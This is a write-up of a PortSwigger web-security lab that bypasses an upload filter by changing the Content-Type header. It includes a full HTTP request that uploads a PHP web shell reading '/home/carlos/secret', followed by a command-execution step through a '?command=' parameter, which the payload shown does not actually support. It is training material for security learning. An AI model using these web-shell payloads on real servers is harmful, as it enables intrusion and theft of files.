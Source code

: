 ## Lab Description: Web shell upload via Content-Type restriction bypas

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/2acd0384-5eb8-4bbb-89d3-39fa6d909f45)

## Solution:  

One way that websites may attempt to validate file uploads is to check that this input-specific Content-Type header matches an expected MIME type. If the server is only expecting image files, for example, it may only allow types like image/jpeg and image/png.
Problems can arise when the value of this header is implicitly trusted by the server.,if no further validation is performed to check whether the contents of the file actually match the supposed MIME type.

Log in as wiener & we will be presented with a page to update email and also to upload an avatar.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/381ce4ab-a80f-44ac-ac2b-8cf1112a2e13)

When we upload .jpg file we get No error and successfully file is uploaded

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b40adc98-ea75-4c94-b9a6-e035c67399c5)

When we upload a .php file with the payload , we get this response stating that the application accepts only .jpeg files.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/0b61f421-e3ed-4e78-99c5-3118128af04a)

```

POST /my-account/avatar HTTP/2
Host: 0a3000a9037af72880157631004c00da.web-security-academy.net
Cookie: session=EFoobh8j7a93NMehMgQ8vxBRFnfw9pLo
Content-Length: 474
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3000a9037af72880157631004c00da.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryneB09X1nkJjKArg7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3000a9037af72880157631004c00da.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

------WebKitFormBoundaryneB09X1nkJjKArg7
Content-Disposition: form-data; name="avatar"; filename="virus.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundaryneB09X1nkJjKArg7
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryneB09X1nkJjKArg7
Content-Disposition: form-data; name="csrf"

wfVqoyKHLdFDWotDbQJDypTlytmUQgEt
------WebKitFormBoundaryneB09X1nkJjKArg7--
```
So let's change the Content-Type: application/x-php to Content-Type: image/jpeg & see what happens.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/5055472c-243a-4c70-ac60-d74438c7110e)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e92effe7-077b-484e-bcb6-a5ff551bc895)

Now the file is successfully uploaded.

Now we can run comands on the server by using the ?command= parameter. ie - `/files/avatars/file.php?command=cat /home/carlos/secret`

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/62a7f80e-2950-4ab6-80d6-45e69c4d28f0)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/2cec0a53-3ccc-4212-9f47-c8af84976ce0)





